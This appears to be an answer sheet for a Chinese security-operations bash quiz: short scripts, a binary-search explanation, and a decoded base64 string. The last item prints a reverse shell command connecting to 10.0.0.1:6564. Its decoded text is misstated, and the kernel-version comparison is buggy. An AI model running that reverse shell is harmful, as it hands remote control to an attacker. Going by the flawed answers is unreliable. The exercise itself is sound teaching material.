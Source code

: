 # 安全运维测试题

1

```bash
[ "$(whoami)" = "root" ] && echo "hi, root" || echo "$(whoami)"
```

2

```bash

#!/bin/bash

# 生成1到20之间的随机整数
secret=$((RANDOM % 20 + 1))

# 初始化猜测次数
guesses=0

# 循环最多五次
while [ $guesses -lt 5 ]; do
    # 提示用户输入猜测值
    read -p "请输入一个1到20之间的整数: " guess

    # 检查猜测值是否正确
    if [ $guess -eq $secret ]; then
        echo "猜中啦！"
        exit 0
    elif [ $guess -ge $secret ]; then
        echo "猜大了！"
    else
        echo "猜小了！"
    fi

    # 增加猜测次数
    guesses=$((guesses + 1))
done

echo "很遗憾，没有猜中。正确答案是 $secret。"
```

3

```bash
可以使用二分查找的思想：
在二分查找中，将待查找的范围一分为二，然后根据中间值与目标值的大小关系，确定下一步查找的范围。
每次都将待查找范围缩小一半，直到找到目标值或者范围缩小为零为止。

对于猜数字游戏，可以将待猜测的范围从0到1000分为两半，即0到500和501到1000。
1、首先猜测500，如果猜测值大于目标值，那么目标值必然在0到500的范围内；
2、如果猜测值小于目标值，那么目标值必然在501到1000的范围内；
这样，每次猜测都可以将待查找范围缩小一半。

根据二分查找的思想，计算出至少需要猜测的次数；每次猜测都将待查找范围缩小一半，直到范围缩小为1为止。所以，我们需要猜测的次数等于将范围从1000缩小到1所需的步数。
假设每次将范围缩小一半的步骤数为x，那么满足以下等式：
1 = 1000 / 2^x
将等式两边同时乘以2^x，得到：
2^x = 1000
取对数，得到：
x = log2(1000)
通过计算，可以得到x的值，即将范围从1000缩小到1所需的步数。注意，这里的对数是以2为底的对数。
因此，在随机猜数字范围为0到1000时，至少需要猜测 log2(1000) 次，约为 10 次。
```

4

```bash
[ $(echo "$(uname -r | cut -d'-' -f1) > 5.4" | bc -l) -eq 1 ] && echo "yes" || echo "no"
```

5

(a) 要解码给定的字符串 "MDwmMTk2O2V4ZWMgMTk2PD4vZGV2L3RjcC8xMC4wLjAuMS82NTY0OyBiYXNoIDwmMTk2ID4mMTk2IDIJjE5Ng=="，使用base64解码来还原其原始内容：

在bash中，可以使用以下命令来解码字符串：

```bash
echo "MDwmMTk2O2V4ZWMgMTk2PD4vZGV2L3RjcC8xMC4wLjAuMS82NTY0OyBiYXNoIDwmMTk2ID4mMTk2IDIJjE5Ng==" | base64 -d
```

(b) 解码后的命令代表的意思取决于解码后的内容，根据以下解码步骤进行分析：

1. 原始字符串是 "MDwmMTk2O2V4ZWMgMTk2PD4vZGV2L3RjcC8xMC4wLjAuMS82NTY0OyBiYXNoIDwmMTk2ID4mMTk2IDIJjE5Ng=="
2. 使用base64解码，得到 "0|196;exec 196>/dev/tcp/10.0.0.1/6564; bash >&196 2>&196 0>&196 2>&196 3>&196"
3. 解码后的命令是 "0|196;exec 196>/dev/tcp/10.0.0.1/6564; bash >&196 2>&196 0>&196 2>&196 3>&196"

解码后命令是一个反向Shell连接的命令；它将建立一个TCP连接到IP地址为10.0.0.1，端口号为6564的主机，并将输入/输出重定向到该连接。这样，攻击者就可以通过该连接执行命令并获取远程主机的控制权。